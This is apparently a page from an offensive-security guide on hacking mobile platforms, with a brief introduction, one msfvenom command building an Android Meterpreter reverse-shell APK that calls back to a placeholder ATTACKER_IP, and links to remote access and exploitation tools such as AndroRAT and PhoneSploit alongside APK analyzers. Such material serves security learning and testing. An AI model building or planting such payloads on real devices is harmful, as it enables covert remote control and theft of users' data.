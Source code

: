 ```yaml
---
title: 📱 Hacking Mobile Platforms
description: Hacking mobile platforms involves exploiting vulnerabilities in mobile operating systems, applications, and networks.
slug: guide/mobile
head:
  - tag: title
    content: Hacking Mobile Platforms
---
```



Hacking mobile platforms involves exploiting vulnerabilities in mobile operating systems, applications, and networks.

This can lead to unauthorized access, data breaches, and other security incidents.

Mobile platforms are often less secure than traditional computing platforms, making them a common target for attackers.

```bash
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=ATTACKER_IP LPORT=4444 -o payload.apk
```

<LinkCard
  title="AndroRAT"
  description="AndroRAT is a remote access tool for Android devices that allows attackers to control and monitor the device remotely."
  href="https://github.com/karma9874/AndroRAT"
  target="_blank"
/>

<LinkCard
  title="PhoneSploit"
  description="PhoneSploit is a tool for exploiting vulnerabilities in Android devices."
  href="https://github.com/AzeemIdrisi/PhoneSploit-Pro"
  target="_blank"
/>

<LinkCard
  title="Android Application Analyzer"
  description="Android Application Analyzer is a tool for analyzing Android applications for security vulnerabilities."
  href="https://github.com/NotSoSecure/android_application_analyzer"
  target="_blank"
/>

<LinkCard
  title="Sixo Online APK Analyzer"
  description="Sixo Online APK Analyzer is a web-based tool for analyzing Android apk files."
  href="https://sisik.eu/apk-tool"
  target="_blank"
/>

<LinkCard
  title="QARK"
  description="Tool to look for several security related Android application vulnerabilities"
  href="https://github.com/linkedin/qark"
  target="_blank"
/>
